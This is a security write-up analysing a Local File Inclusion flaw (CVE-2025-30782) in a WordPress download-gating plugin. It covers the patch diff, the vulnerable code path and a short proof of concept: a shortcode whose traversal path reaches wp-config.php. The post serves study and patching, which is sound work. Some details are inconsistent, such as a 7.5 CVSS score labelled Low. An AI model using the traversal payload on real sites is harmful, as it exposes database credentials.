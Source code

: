```yaml
---
title: CVE-2025-30782 Analysis & POC
description: Security Vulnerability in WordPress Subscribe to Download Lite Plugin.
date: 2025-10-16 19:00:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, lfi]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

## CVE & Basic Info

The **Subscribe to Download Lite** plugin version **≤ 1.2.9** contains a **Local File Inclusion** vulnerability that allows an unauthenticated attacker to control the file parameter used in `include/require`, thereby including or reading local files on the server (for example configuration files that contain credentials), leading to sensitive information disclosure and, in some configurations, possible code execution.

* **CVE ID**: [CVE-2025-30782](https://www.cve.org/CVERecord?id=CVE-2025-30782)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 1.2.9
* **Patched Versions**: 1.3.0
* **CVSS severity**: Low (7.5)
* **Required Privilege**: Contributor
* **Product**: [WordPress Subscribe to Download Lite Plugin](https://wordpress.org/plugins/subscribe-to-download-lite/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **Subscribe to Download Lite**: **1.2.9** (vulnerable) and **1.3.0** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff tool to inspect and compare differences between the two versions.

## Analysis

### Patch diff

**Vulnerable version**:

```phtml {filename="form-template.php v1.2.9" hl_lines=[7]}
<div class="stdl-form-wrap stdl-<?php echo esc_attr($form_template); ?> stdl-alias>">
    <form method="post" action="" class="stdl-subscription-form" data-form-alias="stdl">
        <?php
        do_action('stdl_before_form', $form_details);

        if (file_exists(STDL_PATH . 'inc/views/frontend/form-templates/' . $form_template . '.php')) {
            include(STDL_PATH . 'inc/views/frontend/form-templates/' . $form_template . '.php');
        }
        do_action('stdl_after_form', $form_details);
        ?>
    </form>
</div>
```

In the vulnerable version, `$form_template` is concatenated into the path and included without validating the input => LFI risk, for example:

```php
$form_template = '../../../../../../../wp-config'
```

**Patched version**:

```phtml {filename="form-template.php v1.3.0" hl_lines=[7]}
<div class="stdl-form-wrap stdl-<?php echo esc_attr($form_template); ?> stdl-alias>">
    <form method="post" action="" class="stdl-subscription-form" data-form-alias="stdl">

        <?php
        do_action('stdl_before_form', $form_details);

        $base_dir = realpath(STDL_PATH . 'inc/views/frontend/form-templates') . DIRECTORY_SEPARATOR;
        $sanitized_template = basename($form_template) . '.php';
        $file_path = realpath($base_dir . $sanitized_template);

        if ($file_path && strpos($file_path, $base_dir) === 0 && file_exists($file_path)) {
            include($file_path);
        }
        do_action('stdl_after_form', $form_details);
        ?>
    </form>
</div>
```

The patch uses [`basename()`](https://www.php.net/manual/en/function.basename.php) to extract the file name portion of `$form_template`, removing traversal sequences `../`, for example:

```py
../../../../../../payload.pdf -> payload.pdf
```

Then it concatenates into `$base_dir` and resolves the absolute path with [`realpath`](https://www.php.net/manual/en/function.realpath.php) before `include()` => effectively eliminates the **LFI** possibility.

### Vulnerable Code

The vulnerable `form-template.php` shown above is invoked from `stdl-shortcode.php`

```phtml {filename="stdl-shortcode.php v1.2.9" hl_lines=[8, 18]}
<?php
$form_template = (!empty($atts['template'])) ? $atts['template'] : $form_details['layout']['template'];
if (isset($_COOKIE['stdl_encryption_key']) && $this->check_if_already_subscribed($_COOKIE['stdl_encryption_key']) && empty($form_details['general']['always_show'])) {
    // other logic
} else {
    // other logic
    if ($display_type == 'direct') {
        include(STDL_PATH . 'inc/views/frontend/form-template.php');
    } else {
        ?>
        <div class="stdl-popup-outerwrap <?php echo esc_attr($popup_alias_class); ?>">
            <input type="button" class="stdl-popup-trigger stdl-popup-<?php echo esc_attr($form_template); ?>" value="<?php echo esc_attr($popup_trigger_text); ?>">
            <div class="stdl-popup-innerwrap" style="display:none;">
                <div class="stdl-overlay stdl-popup-wrapper">

                    <div class="stdl-popup-contetn-wrap">
                        <a href="javascript:void(0)" class="stdl-popup-close"><i class="fas fa-times"></i></a>
                            <?php include(STDL_PATH . 'inc/views/frontend/form-template.php');
                            ?>
                    </div>
                </div>
            </div>
        </div>
        <?php
    }
}
```

`$form_template` is the value of `$atts['template']`

From CVE analysis experience on WordPress plugins, `$atts` is typically the shortcode attributes array, for example:

```
[pornhub id=69]
```

Note that `form-template.php` **is always included** within the inner `if-else` block inside the outer `else` when the `stdl_encryption_key` cookie does not exist (i.e., the user has not subscribed or does not have a valid encryption key).

`stdl-shortcode.php` is included by the shortcode callback `subscribe_to_download_form` with `atts` being the shortcode attributes array.

```php {filename="class-stdl-shortcode.php v1.2.9" hl_lines=[2,8]}
function __construct() {
    add_shortcode('subscribe_to_download_form', array($this, 'generate_shortcode_output'));
}

function generate_shortcode_output($atts) {
    wp_enqueue_style('stdl-frontend-custom', STDL_CSS_DIR . '/stdl-custom.css', array(), STDL_VERSION);
    ob_start();
    include(STDL_PATH . 'inc/views/frontend/stdl-shortcode.php');
    $form_html = ob_get_contents();
    ob_clean();
    return $form_html;
}
```

## Exploit

### Proof of Concept (PoC)

#### Step 1

Log in to WordPress with a Contributor account (lowest privilege that can create posts).

#### Step 2

Create a post with the shortcode

```shortcode
[subscribe_to_download_form template='../../../../../../../wp-config']
```

**Result**:

The debugger reached `wp-config.php`

{{< figure src="result.png" caption="Successful LFI result" >}}

## Conclusion

Version **≤ 1.2.9** of Subscribe to Download Lite allows LFI because `include()` uses an unvalidated `$atts['template']`; the issue was fixed in **1.3.0** by normalizing and restricting the template name (`basename()` + `realpath()` + `base_dir` check) before `include()`. Update immediately.

## Key takeaways

* Shortcode input is untrusted — do not include directly.
* Patch (v1.3.0) uses `basename()` + `realpath()` + compare with allowed directory.
* Actions: update the plugin, whitelist/validate attributes.
* Monitor logs for `../` in template parameters.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress Subscribe to Download Lite Plugin <= 1.2.9 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/subscribe-to-download-lite/vulnerability/wordpress-subscribe-to-download-lite-plugin-1-2-9-local-file-inclusion-vulnerability?_s_id=cve)
